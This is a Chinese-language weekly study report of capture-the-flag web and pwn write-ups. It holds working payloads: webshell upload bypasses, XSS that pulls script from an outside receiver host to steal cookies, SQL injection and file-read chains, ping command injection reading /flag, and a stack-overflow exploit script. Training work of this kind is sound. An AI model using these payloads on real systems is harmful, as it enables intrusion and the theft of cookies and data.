





# `<font style="color:rgb(38, 38, 38);">完成事项 ``</font>`

练习和打新大CTF

# `<font style="color:rgb(38, 38, 38);">下周待做事项 ``</font>`

继续练习和打CTF

# `<font style="color:rgb(38, 38, 38);">本周学习的知识分享 ``</font>`

## CHFHUB

### 文件上传漏洞

#### 00截断

源代码：

```
if (!empty($_POST['submit'])) {
    $name = basename($_FILES['file']['name']);
    $info = pathinfo($name);
    $ext = $info['extension'];
    $whitelist = array("jpg", "png", "gif");
    if (in_array($ext, $whitelist)) {
        $des = $_GET['road'] . "/" . rand(10, 99) . date("YmdHis") . "." . $ext;
        if (move_uploaded_file($_FILES['file']['tmp_name'], $des)) {
            echo "<script>alert('上传成功')</script>";
        } else {
            echo "<script>alert('上传失败')</script>";
        }
    } else {
        echo "文件类型不匹配";
    }
}
```

将一句话木马文件名写为 `shell.php.jpg`，用burp劫包，将road参数改为 `/var/www/html/upload/shell.php%`这样子可以使拼接$des的时候使截断，将上传路径文件名强行截至为 `/var/www/html/upload/shell.php`

#### 双写后缀

```
$name = basename($_FILES['file']['name']);
$blacklist = array("php", "php5", "php4", "php3", "phtml", "pht", "jsp", "jspa", "jspx", "jsw", "jsv", "jspf", "jtml", "asp", "aspx", "asa", "asax", "ascx", "ashx", "asmx", "cer", "swf", "htaccess", "ini");
$name = str_ireplace($blacklist, "", $name);
```

`str_ireplace($blacklist,"",$name)` 这一段代码使用了 PHP 中的 `str_ireplace` 函数，将字符串 `$name` 中的所有 `$blacklist` 项替换为空字符串（即删除它们），并且不区分大小写。

所以可以将一句话木马命名为 `shell.pphphp`，将php后缀中间再添加一个.php，这样子会将原本php截断并且新的php会被替换为空字符使原本的php重新结合。

注：不能写为.phpphp，会使两个php都被替换掉。

### XSS漏洞

#### 反射型

使用一个xss接收平台，payload：`<sCRiPt sRC=//xs.pe/5T0></sCrIpT>`，拼接到url之后：`http://challenge-0ed78e37b07a8b06.sandbox.ctfhub.com:10800/?name=%3CsCRiPt+sRC%3D%2F%2Fxs.pe%2F5T0%3E%3C%2FsCrIpT%3E`，发送给Bot，bot会模拟用户访问，在**Cookies**中会存储flag。

#### 存储型

存储型会将上一次提交的name存储在服务器中，下一个人访问时不需要传参也会遭到xss攻击。所以post一个含有xsspayload的name，再将当前题的url直接发送给Bot，即可得到flag。

## QSNCTF

#### 文章管理系统

`?id=0 union select 1,database()`查看数据库名称：word

`?id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema='word' `查看word库中有哪些表 ：articles

`?id=0 union select 1,group_concat(column_name) from information_schema.columns where table_schema='word' and table_name='articles'`查看表中有哪些字段：id,title,word

`?id=0 union select 1,group_concat(word) from articles`得到fake_flag：qsnctf{sql+so+easy!!!!}。

**生气！！！**

左思右想，冥思苦想，不会。看了提示，说要执行命令。在google搜索，发现有sql读取文件函数，于是执行 `?id=0 union select 1,load_file('/flag')`得到flag

#### Robots

`/robots.txt`得到 `/f1ag_1n_the_h3re.php`，flag就在其中

#### 黑客终端

检查源码发现

```
script>
		var output = document.getElementById("output");
		var input = document.getElementById("input");
		var submit = document.getElementById("submit");
		var clear = document.getElementById("clear");

		submit.onclick = function() {
			var command = input.value;

			// 在输出框中显示输入的指令
			output.innerHTML += "$ " + command + "<br>";
			// 调用PHP执行shell命令，并将命令执行的回显输出到终端中
			if(command === "cat /flag"){
				output.innerHTML += "flag{affb8f966e044c378b1b99bf71c608b9}" + "<br>"
			}else if(command === "ls"){
				output.innerHTML += "bin home lib32 media root sys vmlinuz boot initrd.img flag lib64 mnt run tmp vmlinuz.old dev initrd.img.old libx32 opt sbin usr etc lib lost+found proc srv var" + "<br>"
			}else{
				output.innerHTML += "Not find the command..." + "<br>"
			}
			// 清空输入框
			input.value = "";
		}

		clear.onclick = function() {
			output.innerHTML = "";
		}

		// 模拟终端的滚动效果
		var text = "Welcome to the hacker terminal! ";
		var i = 0;
		var intervalId = setInterval(function() {
			output.innerHTML += text.charAt(i);
			i++;
			if (i >= text.length) {
				clearInterval(intervalId);
				output.innerHTML += "<br><br>";
			}
		}, 100);
	</scrip
```

flag就在其中

#### 此地无银三百两



#### EasyMD5

用fastcoll生成一对md5相同的.pdf文件 `./fastcoll_v1.0.0.5.exe -p  1.pdf -o m1.pdf m2.pdf `，上传可得flag

## 新疆大学

### WEB

#### ezweb

蚁剑连接 `newcha11enge.php`，密码xju。

#### ezmd5

`?name[]=1`，post：`password[]=0`。

#### ezupload

F12关闭js上传一句话木马。

#### ezphp

`?a=welcome_to_xju%0a`

post:`b=system("sort%09/flag");`

#### EasyInclude 2024

[原题](https://www.shawroot.cc/730.html) flag:xjusec{b04a9c313c5f4201b0299f4156896163}

#### ping

"/"base64编码为 `Lw==`

输入
ls%09 `echo%09'Lw=='%09|%09base64%09-d`，查看根目录文件发现有flag文件

"/flag"base64编码为 `L2ZsYWc=`

输入

ip=192.168.1.1|ca\t%09 `echo%09'L2ZsYWc='%09|%09base64%09-d`

getflag

#### pseudoproto

`?x=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=f1laggggg.php`

#### ezsql

password=`1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#`

输出 查询失败: XPATH syntax error: '~qsnctf~'

`1'or(updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1))#`

输出 查询失败: XPATH syntax error: '~flaggg,user~'

`1'or(updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x7e),1))#`

输出 查询失败: XPATH syntax error: '~id,flag,id,username,password~'

`1'or(updatexml(1,concat(0x7e,(select group_concat(flag) from flaggg),0x7e),1))#`

输出 查询失败: XPATH syntax error: '~xjusec{true_falg_is_in_user}~'

**好嘛又被骗了**

`1'or(updatexml(1,concat(0x7e,(select group_concat(password) from user),0x7e),1))#`

get flag

#### 彭油，JS懂不懂

将js解码。

解码脚本：

```
import re

def decode_hex(text):
    # Replace all instances of \x63 with the corresponding character
    decoded_text = re.sub(r'\\x([0-9a-fA-F]{2})', lambda x: chr(int(x.group(1), 16)), text)
    return decoded_text

def main():
    input_file = "input.txt"
    output_file = "output.txt"

    # Read the input file
    with open(input_file, 'r', encoding='utf-8') as f:
        content = f.read()

    # Decode the text
    decoded_content = decode_hex(content)

    # Write the decoded content to the output file
    with open(output_file, 'w', encoding='utf-8') as f:
        f.write(decoded_content)

    print(f"Decoded content written to {output_file}")

if __name__ == "__main__":
    main()
```

稍做修改，替换掉原网站的js，点十下就可以getflag啦

```
var H1 = 0;

function draw() {
    one = '<div class="item">';
    two = '<p id="clickNumber">Click number: 0</p>';
    three = '<p id="flag">flag will appear when you click 99999999 times !</p>';
    four = '</div><div class="item"></div>';
    window["document"]['getElementById']("bo")['innerHTML'] = one + two + three + four
}
draw();

function clickkkkk() {
    var mZjYBFF2 = 1;
    var tbuE3 = 2;
    var nBmms4 = 3;
    window["document"]['getElementById']("flag");
    g()
}

function g() {
    var fCdaXby5 = 1;
    var BFJkq6 = fCdaXby5;
    window["document"]['getElementById']("click");
    c()
}

function c() {
    H1 += 1;
    window["document"]['getElementById']("clickNumber")['innerHTML'] = "Click number: " + H1;
    if (H1 === 10) {
        var boF7 = new XMLHttpRequest();
        var jQs8 = "flaggggggggggggggg.php?c1ick=" + 99999999;
        boF7['onreadystatechange'] = function() {
            if (boF7['readyState'] == 4 && boF7['status'] == 200) {
                text = boF7['responseText'];
                window["document"]['getElementById']('flag')['innerHTML'] = text;
                console['log'](text)
            }
        }
        boF7['open']("GET", jQs8, true);
        boF7['send']()
    } else {
        window["document"]['getElementById']('flag')['innerHTML'] = "flag will appear when you click 99999999 times !"
    }
}

function clickEffect() {
    let balls = [];
    let longPressed = false;
    let longPress;
    let multiplier = 0;
    let width, height;
    let origin;
    let normal;
    let ctx;
    const colours = ["#F73859", "#14FFEC", "#00E0FF", "#FF99FE", "#FAF15D"];
    const canvas = window["document"]['createElement']("canvas");
    window["document"]['body']['appendChild'](canvas);
    canvas['setAttribute']("style", "width: 100%; height: 100%; top: 0; left: 0; z-index: 99999; position: fixed; pointer-events: none;");
    const pointer = window["document"]['createElement']("span");
    pointer['classList']['add']("pointer");
    window["document"]['body']['appendChild'](pointer);
    if (canvas['getContext'] && window['addEventListener']) {
        ctx = canvas['getContext']("2d");
        updateSize();
        window['addEventListener']('resize', updateSize, false);
        loop();
        window['addEventListener']("mousedown", function(t9) {
            pushBalls(randBetween(10, 20), t9['clientX'], t9['clientY']);
            window["document"]['body']['classList']['add']("is-pressed");
            longPress = setTimeout(function() {
                window["document"]['body']['classList']['add']("is-longpress");
                longPressed = true
            }, 500)
        }, false);
        window['addEventListener']("mouseup", function(iSsrAP10) {
            clearInterval(longPress);
            if (longPressed == true) {
                window["document"]['body']['classList']['remove']("is-longpress");
                pushBalls(randBetween(50 + window["Math"]['ceil'](multiplier), 100 + window["Math"]['ceil'](multiplier)), iSsrAP10['clientX'], iSsrAP10['clientY']);
                longPressed = false
            }
            window["document"]['body']['classList']['remove']("is-pressed")
        }, false);
        window['addEventListener']("mousemove", function(Me11) {
            let x = Me11['clientX'];
            let y = Me11['clientY'];
            pointer['style']['top'] = y + "px";
            pointer['style']['left'] = x + "px"
        }, false)
    } else {
        console['log']("canvas or addEventListener is unsupported!")
    }

    function updateSize() {
        canvas['width'] = window['innerWidth'] * 2;
        canvas['height'] = window['innerHeight'] * 2;
        canvas['style']['width'] = window['innerWidth'] + 'px';
        canvas['style']['height'] = window['innerHeight'] + 'px';
        ctx['scale'](2, 2);
        width = (canvas['width'] = window['innerWidth']);
        height = (canvas['height'] = window['innerHeight']);
        origin = {
            x: width / 2,
            y: height / 2
        };
        normal = {
            x: width / 2,
            y: height / 2
        }
    }
    class Ball {
        constructor(tUhe12=origin['x'], y=origin['y']) {
            this['x'] = tUhe12;
            this['y'] = y;
            this['angle'] = window["Math"]['PI'] * 2 * window["Math"]['random']();
            if (longPressed == true) {
                this['multiplier'] = randBetween(14 + multiplier, 15 + multiplier)
            } else {
                this['multiplier'] = randBetween(6, 12)
            }
            this['vx'] = (this['multiplier'] + window["Math"]['random']() * 0.5) * window["Math"]['cos'](this['angle']);
            this['vy'] = (this['multiplier'] + window["Math"]['random']() * 0.5) * window["Math"]['sin'](this['angle']);
            this['r'] = randBetween(8, 12) + 3 * window["Math"]['random']();
            this['color'] = colours[window["Math"]['floor'](window["Math"]['random']() * colours['length'])]
        }
        update() {
            this['x'] += this['vx'] - normal['x'];
            this['y'] += this['vy'] - normal['y'];
            normal['x'] = -2 / window['innerWidth'] * window["Math"]['sin'](this['angle']);
            normal['y'] = -2 / window['innerHeight'] * window["Math"]['cos'](this['angle']);
            this['r'] -= 0.3;
            this['vx'] *= 0.9;
            this['vy'] *= 0.9
        }
    }

    function pushBalls(count=1, Ath13=origin['x'], y=origin['y']) {
        for (let i = 0; i < count; i++) {
            balls['push'](new Ball(Ath13,y))
        }
    }

    function randBetween(QbDVNr14, fvmS$D15) {
        return window["Math"]['floor'](window["Math"]['random']() * fvmS$D15) + QbDVNr14
    }

    function loop() {
        ctx['fillStyle'] = "rgba(255, 255, 255, 0)";
        ctx['clearRect'](0, 0, canvas['width'], canvas['height']);
        for (let i = 0; i < balls['length']; i++) {
            let b = balls[i];
            if (b['r'] < 0)
                continue;
            ctx['fillStyle'] = b['color'];
            ctx['beginPath']();
            ctx['arc'](b['x'], b['y'], b['r'], 0, window["Math"]['PI'] * 2, false);
            ctx['fill']();
            b['update']()
        }
        if (longPressed == true) {
            multiplier += 0.2
        } else if (!longPressed && multiplier >= 0) {
            multiplier -= 0.4
        }
        removeBall();
        requestAnimationFrame(loop)
    }

    function removeBall() {
        for (let i = 0; i < balls['length']; i++) {
            let b = balls[i];
            if (b['x'] + b['r'] < 0 || b['x'] - b['r'] > width || b['y'] + b['r'] < 0 || b['y'] - b['r'] > height || b['r'] < 0) {
                balls['splice'](i, 1)
            }
        }
    }
}
clickEffect()
```



### PWN

#### ezstack_1024

```
from pwn import *
#p = process("pwn")
p = remote("challenge.qsnctf.com", 31174)
payload = b'a'*128+b'b'*8+ p64(0x401257)
p.sendline(payload)
p.interactive()
```

# `<font style="color:rgb(38, 38, 38);">本周学习总结 ``</font>`

#### SQL

[教程博客](https://rickliu.com/posts/1dc1c5acd0e2/index.html)

##### information_schema

information_schema为系统自带的数据库

里面有一个tables表，该表存放着数据库和数据表的关联，其中table_schema为存储数据库名的字段，table_name为存储表名的字段

`select table_name from information_schema.tables where table_schema=database()`会输出当前数据库中的所有表名

还有一个columns表，该表存放着数据表和字段的关联，使用该表查询某表中有哪些字段时，需要同时指定是哪个数据的哪个表

`select column_name from information_schema.columns where table_name='表名'and table_schema=database()`会输出指定数据表中的所有字段名

##### 读写注入

读取文件：UNION SELECT 1,load_file('d:/w.txt')

写入文件：UNION SELECT 1,'xxxx' into outfile 'd:/www.txt'

路径获取：phpinfo,报错,字典等

#### php

##### 绕过

###### 编码绕过


